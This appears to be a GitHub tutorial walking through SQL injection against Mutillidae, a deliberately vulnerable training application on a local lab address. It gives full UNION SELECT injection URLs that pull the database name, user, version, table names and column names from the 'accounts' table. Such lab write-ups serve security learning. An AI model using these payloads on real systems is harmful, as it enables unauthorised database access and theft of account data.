 ![image](https://github.com/jagadeepreddy11/sqlinjection/assets/150368525/37bb1f54-170e-4224-82ee-04e617d36f33)


As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/jagadeepreddy11/sqlinjection/assets/150368525/1e1db50c-94f9-477c-bbcc-820e0a1f52d2)


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/jagadeepreddy11/sqlinjection/assets/150368525/5b349c49-5645-4cf9-b362-1adfe39d9b8d)


Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=abinaya%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=userinfo.php&username=abinaya%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/jagadeepreddy11/sqlinjection/assets/150368525/44e9ccdb-bc2b-418d-9f51-7b38b53276ae)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=userinfo.php&username=abinaya%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.
